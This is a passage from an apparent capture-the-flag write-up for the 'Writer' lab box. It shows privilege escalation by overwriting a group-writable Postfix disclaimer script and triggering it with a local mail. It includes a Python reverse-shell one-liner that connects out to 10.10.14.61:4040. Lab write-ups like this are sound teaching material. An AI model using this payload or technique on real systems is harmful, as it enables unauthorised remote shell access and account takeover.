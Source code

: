 After more enumeration with [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) etc we found out that there is a "filter" workgroup which we are part of:

```
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```

Which can write to the disclaimer script in /etc/postfix:
```
kyle@writer:/etc/postfix$ ls -la
total 140
drwxr-xr-x   5 root root    4096 Jul  9 10:59 .
drwxr-xr-x 102 root root    4096 Jul 28 06:32 ..
-rwxrwxr-x   1 root filter  1021 Aug 19 19:56 disclaimer
-rw-r--r--   1 root root      32 May 13 22:49 disclaimer_addresses
-rw-r--r--   1 root root     749 May 13 22:40 disclaimer.txt
-rw-r--r--   1 root root      60 May 13 22:27 dynamicmaps.cf
drwxr-xr-x   2 root root    4096 Jun 19  2020 dynamicmaps.cf.d
-rw-r--r--   1 root root    1330 May 18 19:41 main.cf
-rw-r--r--   1 root root   27120 May 13 22:27 main.cf.proto
lrwxrwxrwx   1 root root      31 May 13 22:27 makedefs.out -> /usr/share/postfix/makedefs.out
-rw-r--r--   1 root root    6373 Aug 19 19:56 master.cf
-rw-r--r--   1 root root    6208 May 13 22:27 master.cf.proto
-rw-r--r--   1 root root   10268 Jun 19  2020 postfix-files
drwxr-xr-x   2 root root    4096 Jun 19  2020 postfix-files.d
-rwxr-xr-x   1 root root   11532 Jun 19  2020 postfix-script
-rwxr-xr-x   1 root root   29872 Jun 19  2020 post-install
drwxr-xr-x   2 root root    4096 Jun 19  2020 sasl
```

After researching we found out that the disclaimer script is used when sending mails. Since we can send mails and also overwrite the disclaimer script we can make use of this to escalate our privileges to another user:

We created a sendmail.py:

```py                                                                                                            
import smtplib

sender_email = "kyle@writer.htb"
receiver_email = "kyle@writer.htb"
message = """\
Subject: Plz give more privileges

Test_python_sender."""

try:
        server = smtplib.SMTP('127.0.0.1', 25)
        server.ehlo()
        server.sendmail(sender_email, receiver_email, message)
except Exception as e:
        print(e)
finally:
        server.quit()
```
and a disclaimer file:
```bash
#!/bin/sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4040));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
After setting up our listener and make disclaimer executeable we just run `cp disclaimer /etc/postfix/disclaimer && python3 send_mail.py` to get a shell as the user "john".
